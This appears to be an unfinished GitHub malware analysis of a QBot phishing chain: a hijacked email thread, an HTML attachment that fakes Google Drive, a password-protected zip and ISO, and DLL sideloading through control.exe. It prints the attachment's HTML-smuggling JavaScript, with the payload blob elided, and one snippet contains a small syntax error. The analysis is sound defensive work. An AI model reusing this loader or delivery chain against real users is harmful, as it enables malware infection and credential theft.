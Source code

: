 # Malicious (QBot)

QBot (QakBot) is a Trojan, which has been active for years. It was originally a malware designed to target governments and businesses for financial fraud by stealing user credentials and keystrokes, but time has move since that. We have recently seen an example of this targeting my employee network, so I decided to take a closer look and perform a deep analysis on this sample to see which techniques does this new version use.

## Stage 01 - Email

The email that was received by one of the employees is referencing some valid old email conversation from the target user. I've seen this technique before, it is mainly to get credibility, but if you check closely, the original email is from 2019, but I guess it is easy to miss. The source of the email conversion is most probably from a date leak or a compromised laptop.  itself is not a very good phishing attempt, it screams problems left and right, but I guess they are going for quantity, not quality. The interesting piece is the password protected zip attachment (basic techniques to bypass malicious file filtering).

![Alt text](data/qbot_email.png?raw=true "Email sample")

## Stage 02 - HTML Attachment

Le't check the attachment.

![Alt text](data/email.png?raw=true "Document details")

It is html file which mimics GDrive page (using a screenshot which is directly encoded in the code) asking the user to download the file and open it. The file is password protected to avoid detection on the way.

The HTML file also provokes download of the zip file automatically The file is also packed directly in the HTML file, so no data need to be downloaded from the Internet.

```
<script language="javascript">
	var zVGUi3zP = document.getElementById('zVGUi3zP').innerText;
	function ready() {
		QqEJCIyy();
    }
	document.addEventListener("DOMContentLoaded", ready);
	zVGUi3zP = document.getElementById('zVGUi3zP').innerText;
	function th418Cpm()
	{
		const KQnNdBZQ = document.querySelector("#N5JP6xfc");
		return KQnNdBZQ.dataset.reminder;
	}
	function QqEJCIyy()
	{
		var TEnDd49w = document.createElement("embed");
		TEnDd49w.setAttribute("width", 120);
		TEnDd49w.setAttribute("height", 120);
		TEnDd49w.setAttribute("id", "cCfHr4vH");
		TEnDd49w.setAttribute("src", "data:image/svg+xml;base64," + zVGUi3zP + th418Cpm());
		document.body.appendChild(TEnDd49w);
	}
</script>
```

The HTML contains three base64 blobs - one is the screenshot used in the fake website and the other two are later concateted into one base 64 blob, new document element is created from that as `data:image/svg+xml;base64`. Let's check what is inside.

```
<script>
<![CDATA[
  function get_zip_date(base_64_blob, 512) {
    var YTbnoJHC = [];
    var decoded_blob = atob(base_64_blob);
    for(var i = 0; i < decoded_blob.length; i += 512) {
      var eVcLGshY = decoded_blob.slice(i, i + 512);
      var vZIZ2Kme = new Array(eVcLGshY.length);

      for(var j = 0; j < eVcLGshY.length; j++) {
        vZIZ2Kme[j] = eVcLGshY.charCodeAt(j);
      }
      var JkT5zYmW = new Uint8Array(vZIZ2Kme);
      YTbnoJHC.push(JkT5zYmW);
    }
    var zip_data = new Blob(YTbnoJHC, {type: "application/zip"});
    return zip_data;
  }
  function gdhpoIyu(zip_data) {
    let okVLUB9x = new File([zip_data], "attachment.zip", {type: "application/zip"});
    let WRQWQcyt = URL["createObjectURL"](okVLUB9x);
    window.location.assign(WRQWQcyt);
    URL.revokeObjectURL(WRQWQcyt);
  }
  var base_64_blob = "======DATA====="
  var zip_data = get_zip_date(base_64_blob, 512);
  gdhpoIyu(zip_data);
]]>
</script>
```

We are dealing with a similarly structured file. This time it is with one blob a little bit more obfuscated script code. You can see basically deobfuscated function. Which basically takes the blob with ZIP file data and decode it from base64 and serve it as zip file download.

## Stage 03 - Downloaded ZIP file and following file

The ZIP file is, as described in the email, password protected and after the unpacking it contains an ISO file.

```
Directory of C:\Users\labuser\Downloads\Qbot
11/28/2022  09:17 AM    <DIR>          .
11/28/2022  09:17 AM    <DIR>          ..
11/25/2022  09:54 AM         2,031,616 RNP_45105051_14112022.iso
              1 File(s)      2,031,616 bytes
```

The ISO file finally contains something interesting. Only file without `hidden` tag is `RNP_45105051_14112022.lnk`, the rest with.

```
E:\>dir /a
 Directory of E:\
11/27/2021  11:01 PM           149,504 control.exe
11/14/2022  06:37 AM             8,192 edputil.dll
11/09/2022  07:17 AM           608,248 msoffice32.dll
11/10/2022  07:17 AM             1,689 RNP_45105051_14112022.lnk
               4 File(s)        767,633 bytes
```

![Alt text](data/vt_control.png?raw=true "Email sample")

`control.exe` is a valid MS application, so the problem is coming from a different side and that is the dlls which are bundled with the exe. And how does it work? The LNK file is executing following `C:\Windows\System32\cmd.exe /c control.exe`. This will start the `control.exe` from the current folder. A new window with Control Panel will appear and also it will try to load the DLLs needed for the execution. As per default settings of Microsoft Windows, the first location to search for the dll is the current directory, the DLL `msoffice32.dll` is loaded and executed. This dll is the malicious part in the puzzle.

This technique is call DLL Sideloading. You can read more about it for example here https://businessinsights.bitdefender.com/tech-explainer-what-is-dll-sideloading.

## Stage 04

TBA

## Prevention

## Reading and References
